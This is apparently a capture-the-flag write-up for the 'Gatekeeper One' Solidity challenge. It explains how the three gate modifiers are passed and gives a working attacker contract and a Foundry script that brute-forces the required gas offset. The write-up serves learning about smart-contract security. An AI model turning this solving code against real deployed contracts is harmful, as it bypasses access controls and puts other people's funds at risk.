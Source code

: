 # Gatekeeper one   
The objective of this challenge is to get registered as an entrant to pass this level.   
The only `public` function is the `enter` function, but this function has three modifiers: `gateOne`, `gateTwo` and `gateThree`.   
   
The first modifier requires us to call the `enter` function from a smart contract.   
```solidity
modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }
```
The second modifier is more complex, it requires that the remaining gas  `gasleft()` when the modifier is executed is a multiple of 8191:   
```solidity
modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }
```
So, we have to send a specific amount of gas that is exactly divisible by 8191, remember that the minimum required is 21,000[ https://ethereum.org/en/developers/docs/gas/#what-is-gas-limi](https://ethereum.org/en/developers/docs/gas/#what-is-gas-limit)t.
   
And finally for the third modifier we have to set the key.   
```solidity
modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }
```
Ok, let's begin with the last require:   
1. The **last 4 bytes** of the `\_gateKey` must be of the form `0x0000XXXX`, where `XXXX` are the last 2 bytes of the sender's address ( `tx.origin`).   
   
2. The **first 4 bytes** of the `\_gateKey` must not be `0x00000000`.   
3. The **last 4 bytes** of the `\_gateKey` must equal its **last 2 bytes**, ensuring the form `0x0000XXXX`   
Basically it has to be like this:   
```solidity
	 		      8 bytes(64 bits)
	 ┌────────────────────┴─────────────────────┐	 
         4bytes(32 bits)  |    4bytes(32 bits)
     ┌──────────┴─────────┐──────────╋──────────┐
     │     not 0x0000     │  0x0000  │ tx.origin│
     └────────────────────┘──────────┴──────────┘

```
I made one contract and one script for automating the exploitation:   
```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.20;

interface IGateKeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract Solving {
    function attack(address _victim, uint256 _gas) public {
        bytes8 gateKey = bytes8(uint64(1) << 32 | uint16(uint160(tx.origin)));
        require(IGateKeeperOne(_victim).enter{gas: (8191*3)+_gas}(gateKey));
    }
}
```

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.20;

import {Script, console2} from "forge-std/Script.sol";
import {Solving} from "src/Solving.sol";

contract SolvingScript is Script {
    address victim =; /* Your instance address */
    Solving solving;

    function run() public {
        vm.startBroadcast();
        solving = new Solving();
        solve();
        vm.stopBroadcast();
    }

    function solve() public {
        /* for (uint256 i = 0; i < 500; i++) { // Use this loop to find the correct gas value
            try solving.attack(victim, i) {
                console2.log("Solved", i);
                return;
            } catch { }
    }*/
        solving.attack(victim, 256); // In my case this was the correct value
    }
}
```
